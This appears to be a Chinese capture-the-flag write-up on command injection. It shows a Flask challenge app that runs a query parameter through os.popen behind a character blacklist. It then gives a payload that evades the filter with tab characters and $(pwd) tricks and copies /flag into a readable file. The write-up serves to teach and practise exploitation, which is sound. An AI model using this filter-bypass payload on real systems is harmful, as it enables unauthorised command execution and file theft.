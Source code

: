 # 知识点
命令执行<br />$()
> $()相当于` `，可以执行命令

[Linux—shell中$(( ))、$( )、``与${ }的区别 - chengd - 博客园](https://www.cnblogs.com/chengd/p/7803664.html#:~:text=Linux%E2%80%94shell%E4%B8%AD%24%28%28%20%29%29%E3%80%81%24%28%20%29%E3%80%81%60%60%E4%B8%8E%24%7B%20%7D%E7%9A%84%E5%8C%BA%E5%88%AB,%E5%91%BD%E4%BB%A4%E6%9B%BF%E6%8D%A2%20%E5%9C%A8bash%E4%B8%AD%EF%BC%8C%24%28%20%29%E4%B8%8E%60%20%60%EF%BC%88%E5%8F%8D%E5%BC%95%E5%8F%B7%EF%BC%89%E9%83%BD%E6%98%AF%E7%94%A8%E6%9D%A5%E4%BD%9C%E5%91%BD%E4%BB%A4%E6%9B%BF%E6%8D%A2%E7%9A%84%E3%80%82%20%E5%91%BD%E4%BB%A4%E6%9B%BF%E6%8D%A2%E4%B8%8E%E5%8F%98%E9%87%8F%E6%9B%BF%E6%8D%A2%E5%B7%AE%E4%B8%8D%E5%A4%9A%EF%BC%8C%E9%83%BD%E6%98%AF%E7%94%A8%E6%9D%A5%E9%87%8D%E7%BB%84%E5%91%BD%E4%BB%A4%E8%A1%8C%E7%9A%84%EF%BC%8C%E5%85%88%E5%AE%8C%E6%88%90%E5%BC%95%E5%8F%B7%E9%87%8C%E7%9A%84%E5%91%BD%E4%BB%A4%E8%A1%8C%EF%BC%8C%E7%84%B6%E5%90%8E%E5%B0%86%E5%85%B6%E7%BB%93%E6%9E%9C%E6%9B%BF%E6%8D%A2%E5%87%BA%E6%9D%A5%EF%BC%8C%E5%86%8D%E9%87%8D%E7%BB%84%E6%88%90%E6%96%B0%E7%9A%84%E5%91%BD%E4%BB%A4%E8%A1%8C%E3%80%82)
# 思路
```php

from flask import Flask, request, make_response
import uuid
import os

# flag in /flag
app = Flask(__name__)

def waf(rce):
    black_list = '01233456789un/|{}*!;@#\n`~\'\"><=+-_ '
    # black_list = ''
    for black in black_list:
        if black in rce:
            return False
    return True

@app.route('/', methods=['GET'])
def index():
    if request.args.get("Ňśś"):
        nss = request.args.get("Ňśś")
        if waf(nss):
            os.popen(nss)
        else:
            return "waf"
    return "/source"


@app.route('/source', methods=['GET'])
def source():
    src = open("app.py", 'rb').read()
    return src

if __name__ == '__main__':
    app.run(host='0.0.0.0', debug=False, port=9000)

```
保留字母，但是过滤了斜杠，我们可以尝试使用$(pwd)来获取 /<br />不断cd到根目录，然后执行pwd获取/<br />从而将/flag中的内容复制到app.py中
```php
cp%09$(cd%09..&&cd%09..&&cd%09..&&cd%09..&&cd%09..&&cd%09..&&cd%09..&&cd%09..%09echo%09$(pwd)flag)%09app.py
```
访问/source获取flag

